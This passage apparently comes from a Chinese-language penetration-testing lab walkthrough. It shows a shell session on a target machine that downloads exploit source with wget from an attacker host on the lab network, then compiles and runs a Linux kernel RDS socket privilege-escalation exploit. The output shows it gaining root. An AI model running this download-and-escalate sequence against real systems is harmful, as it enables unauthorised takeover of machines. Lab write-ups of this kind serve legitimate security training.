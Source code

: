 -   将文件传输到靶机中，并尝试利用

-   ```shell
    bash-4.0$ cd /tm
    cd /tmp/
    bash-4.0$ wget http://192.168.2.128/15285.c
    wget http://192.168.2.128/15285.c
    --2023-05-30 00:32:36--  http://192.168.2.128/15285.c
    Connecting to 192.168.2.128:80... connected.
    HTTP request sent, awaiting response... 200 OK
    Length: 6860 (6.7K) [text/x-c]
    Saving to: `15285.c'
    
     0% [                                       ] 0           --.-K/s            100%[======================================>] 6,860       --.-K/s   in 0s      
    
    2023-05-30 00:32:36 (81.8 MB/s) - `15285.c' saved [6860/6860]
    ```

-   编译并利用：

-   ```shell
    bash-4.0$ gcc 15285.c -o 15285
    gcc 15285.c -o 15285
    bash-4.0$ ./15
    ./15285 
    [*] Linux kernel >= 2.6.30 RDS socket exploit
    [*] by Dan Rosenberg
    [*] Resolving kernel addresses...
     [+] Resolved security_ops to 0xc0aa19ac
     [+] Resolved default_security_ops to 0xc0955c6c
     [+] Resolved cap_ptrace_traceme to 0xc055d9d7
     [+] Resolved commit_creds to 0xc044e5f1
     [+] Resolved prepare_kernel_cred to 0xc044e452
    [*] Overwriting security ops...
    [*] Overwriting function pointer...
    [*] Triggering payload...
    [*] Restoring function pointer...
    [*] Got root!
    sh-4.0# ls
    ls
    15023.c  15285  15285.c  34923.c  orbit-gdm  pulse-PKdhtXMmr18n
    sh-4.0# whoami  
    whoami
    root
    sh-4.0# ip a
    ip a
    1: lo: <LOOPBACK,UP,LOWER_UP> mtu 16436 qdisc noqueue state UNKNOWN 
        link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
        inet 127.0.0.1/8 scope host lo
        inet6 ::1/128 scope host 
           valid_lft forever preferred_lft forever
    2: eth1: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP qlen 1000
        link/ether 00:0c:29:b7:25:81 brd ff:ff:ff:ff:ff:ff
        inet 192.168.2.140/24 brd 192.168.2.255 scope global eth1
        inet6 fe80::20c:29ff:feb7:2581/64 scope link 
           valid_lft forever preferred_lft forever
    sh-4.0# 
    ```
